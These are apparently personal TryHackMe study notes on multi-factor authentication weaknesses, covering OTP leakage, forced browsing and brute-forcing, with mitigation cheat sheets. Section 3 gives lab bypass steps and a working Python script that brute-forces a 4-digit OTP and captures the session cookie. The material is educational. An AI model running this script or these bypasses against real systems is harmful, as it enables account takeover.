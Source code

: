 
📅 **Date**: 24 February 25  
📂 **Category**: TryHackMe 
📝 **Status**: Completed  
🔒 **Room**: authentication
🏷️ Tags: #tryhackme #tryhackme/learn 

---
# Multi Factor Authentication
## 1. Introduction to MFA
MFA (Multi-Factor Authentication): A security mechanism that requires users to provide two or more verification factors to access a resource.

 - [ ] Authentication Factors:
	- [ ]  Something you know: Passwords, PINs.
	- [ ] Something you have: OTPs, hardware tokens.
	- [ ] Something you are: Biometrics (fingerprint, facial recognition).

## 2. Common MFA Vulnerabilities
### 2.1 OTP Leakage
- [ ] **Definition**: Unintended exposure of One-Time Passwords (OTPs) due to insecure transmission, storage, or social engineering.

- [ ] **Causes**:
    - [ ] Man-in-the-Middle (MITM) attacks.
    - [ ] Phishing attacks.
    - [ ] Insecure storage (e.g., plaintext OTPs in databases).
    - [ ] SIM swapping.
- [ ] **Mitigation**:
    - [ ] Use secure channels for OTP transmission (e.g., encrypted apps like Google Authenticator).
    - [ ] Implement rate limiting to prevent brute-forcing.
### 2.2 Insecure Coding (Logic Flaws)

- [ ] **Definition**: Errors in application logic that allow attackers to bypass security controls.
- [ ] **Example**: Forced browsing to bypass OTP verification.
- [ ] **Mitigation**:
    - [ ] Implement proper access controls.
    - [ ] Validate user sessions and permissions at every step.

### 2.3 Brute- [ ]Forcing OTPs
- [ ] **Definition**: Repeatedly guessing OTPs to gain unauthorized access.
    
- [ ] **Mitigation**:
    - [ ] Rate limiting (restrict OTP attempts).
    - [ ] Account lockout after multiple failed attempts.
    - [ ] Use longer OTPs (e.g., 6 digits instead of 4).

## 3. Practical Exploits

### 3.1 OTP Leakage Exploit

- [ ] **Steps**:
    1. Log in to the application.
    2. Capture the OTP via Developer Tools (Network tab).
    3. Use the OTP to bypass authentication.
- [ ] **Tools**: Browser Developer Tools (F12).

### 3.2 Forced Browsing (Insecure Coding)

- [ ] **Steps**:
    1. Log in to the application.
    2. Directly navigate to the dashboard URL (e.g., `http://mfa.thm/labs/second/dashboard`).
    3. Bypass OTP verification and access the dashboard.
- [ ] **Mitigation**: Ensure proper session validation and access controls.

### 3.3 Beating Auto- [ ]Logout (Session Hijacking)

- [ ] **Steps**:
    1. Use a Python script to brute- [ ]force the OTP.
    2. Extract the session cookie (`PHPSESSID`).
    3. Use the session cookie to log in without credentials or OTP.

```python
import requests

# Define URLs and credentials
login_url = 'http://mfa.thm/labs/third/'
otp_url = 'http://mfa.thm/labs/third/mfa'
credentials = {'email': 'thm@mail.thm', 'password': 'test123'}

# Brute-force OTP
def brute_force_otp():
    for otp in range(10000):
        session = requests.Session()
        session.post(login_url, data=credentials)
        otp_str = f"{otp:04}"
        response = session.post(otp_url, data={'code-1': otp_str[0], 'code-2': otp_str[1], 'code-3': otp_str[2], 'code-4': otp_str[3]})
        if response.status_code == 302:
            print(f"Success! OTP: {otp_str}")
            print(f"Session Cookie: {session.cookies.get_dict()}")
            return session.cookies.get_dict()

brute_force_otp()
```
## 4. Cheat Sheets

### 4.1 OTP Security Best Practices
- [ ] Use secure channels for OTP delivery.
- [ ] Implement rate limiting and account lockout mechanisms.
- [ ] Avoid SMS-based OTPs (use app-based OTPs like Google Authenticator).

### 4.2 Session Hijacking Prevention
- [ ] Use secure, HTTP-only cookies.
- [ ] Implement session expiration and auto-logout.
- [ ] Regenerate session IDs after login.

### 4.3 Forced Browsing Mitigation
- [ ] Validate user permissions at every step.
- [ ] Use role-based access control (RBAC).
- [ ] Avoid exposing sensitive URLs directly.

